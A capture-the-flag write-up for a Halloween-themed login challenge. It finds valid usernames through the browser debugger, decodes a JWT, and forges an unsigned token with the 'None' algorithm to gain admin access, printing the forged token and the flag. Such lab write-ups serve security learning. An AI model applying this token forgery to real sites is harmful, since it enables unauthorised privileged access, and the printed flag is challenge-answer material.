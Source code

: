 # Checking the site

There are ghosts and witches flying around on a login page.

![](screenshots/1.png)

# Console

Opening the console in the browser reveals some debug messages.

```
[DEBUG] Backend URL: http://10.10.2.10:1337
[NOTE] The witches sometimes like to glitch. Let's be honest, they just like to party hard. BWAHAHAHA
```

# Debug

Looking for more of these debug logs in the JS files, there is one more:

```
[DEBUG] username seems valid
```

Inserting a breakpoint and updating the username input field stops on it.

![](screenshots/2.png)

The value `r` has a bunch of values. The JS is checking if the value in the input is in this array. These are the valid usernames.

# Login

We can log in with these users. The chosen is the `witch`.

![](screenshots/3.png)

This is calling the `/login` endpoint on the backend.

![](screenshots/4.png)

It has a JWT token.

```json
{
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpdGNoIiwiaXNBZG0iOjAsImV4cCI6MTcwMDIzNTAzMX0.RwLppWYz6yObN4UTTQUuylVmDWQTIYZ5WRa1R8lXvxU", 
    "exp": 1700235031
}
```

# JWT token

Decoding the token can be done manually decoding the base64 or with [jwt.io](https://jwt.io/).

Header:

```
{"alg":"HS256","typ":"JWT"}
```

Payload:
```
{"username":"witch","isAdm":0,"exp":1700235031}
```

![](screenshots/5.png)

# None algorithm

For some reason, JWT tokens can be signed with the None algorithm, and insecure applications do accept them. Let's also edit the payload and flip `isAdm` and make it never expire.

The `=` padding has to be omitted for JWT tokens.

Header:

```
{"alg":"None","typ":"JWT"}
```

Payload:

```
{"username":"witch","isAdm":1,"exp":9999999999}
```

Response:

```json
{
    "token": "eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IndpdGNoIiwiaXNBZG0iOjEsImV4cCI6OTk5OTk5OTk5OX0.", 
    "exp":9999999999
}
```

This logs us in with admin.

![](screenshots/6.png)

# Flag
`cq23{g0tta_c4tch_th3m_4ll_6d8441095772cfcf12a846450d}`